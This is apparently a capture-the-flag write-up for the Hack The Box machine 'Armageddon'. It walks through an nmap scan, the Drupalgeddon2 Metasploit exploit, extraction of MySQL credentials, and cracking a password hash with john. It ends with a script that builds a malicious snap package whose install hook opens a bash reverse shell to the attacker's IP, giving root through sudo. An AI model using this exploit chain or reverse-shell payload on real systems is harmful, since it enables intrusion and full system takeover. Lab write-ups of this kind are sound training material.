

# armageddon

## nmap

```bash
# Nmap 7.91 scan initiated Sat Jun 26 18:26:16 2021 as: nmap -sV -p- -oA nmap/armageddon 10.10.10.233
Nmap scan report for armageddon.htb (10.10.10.233)
Host is up (0.054s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 26 18:26:55 2021 -- 1 IP address (1 host up) scanned in 39.45 seconds
```

The only active service seems to be an apache web server which hosts the armageddon web site.

## Armageddon web site

The website is running Drupal v7 that can be easily found by looking at the web site source:

```html
<head profile="http://www.w3.org/1999/xhtml/vocab">
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<link rel="shortcut icon" href="http://armageddon.htb/misc/favicon.ico" type="image/vnd.microsoft.icon" />
<meta name="Generator" content="Drupal 7 (http://drupal.org)" />
```

A rapid search with searchsploit and we can find several exploit let's try the metasploit one: `exploit/unix/webapp/drupal_drupalgeddon2` (and I think the name of the machine is a nice hint on the exploit)

Set the options as follow



and launch the exploit now we have a shell with user apache.

## Apache

From the apache user we can see what there is inside the `/etc/passwd` in order to create a list of the possibile [users][1] in the machine that can be usefull later.

We cannot create network connections from user apache so we can't download file in the machine from here. Let's have a look into the drupal server file in `sites/default/settings.php` there are some mysql credentials:
***drupaluser:CQHEy@9M*m23gBVj*** 

we can see the database tables running:

`mysql -u drupaluser -p -D drupal -e 'show tables'`
 
 and get the list of username and password by:

 `mysql -u drupaluser -p -D drupal -e 'select * from users'`

 ```bash
 uid     name    pass    mail    theme   signature       signature_format        created access  login   status       timezone        language        picture init    data
0                                               NULL    0       0       0       0       NULL            0   NULL
1       brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu filtered_html    1606998756      1607077194      1607076276      1       Europe/London           0       admin@armageddon.eu  a:1:{s:7:"overlay";i:1;}
```

we have an hash for user `brucetherealadmin` that was in `/etc/passwd` too so he can be our user.

We can try to crack the hash with john

`zcat /usr/share/wordlists/rockyou.txt.gz | john --stdin passwords.txt`

and we have a password for user ***brucetherealadmin:booboo***

## Bruce the real admin

Bruce can run snap install via sudo without password so we need to build a snap package that drop a root shell when installed

to do this we can use [fpm][2] as suggested by [GTFObins][3].

To build the exploit and get a reverse shell from root use this:

```bash
COMMAND="bash -i >& /dev/tcp/<your ip>/9001 0>&1"
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n rootme -s dir -t snap -a all meta
```

then upload to the machine the snap and install with `sudo snap install rootme.snap --dangerous --devmode` be sure to be listening on port 9001 (`nc -lvnp 9001`) before installing the snap.


[//]: #links
[1]: users.txt
[2]: https://github.com/jordansissel/fpm
[3]: https://gtfobins.github.io/gtfobins/snap/
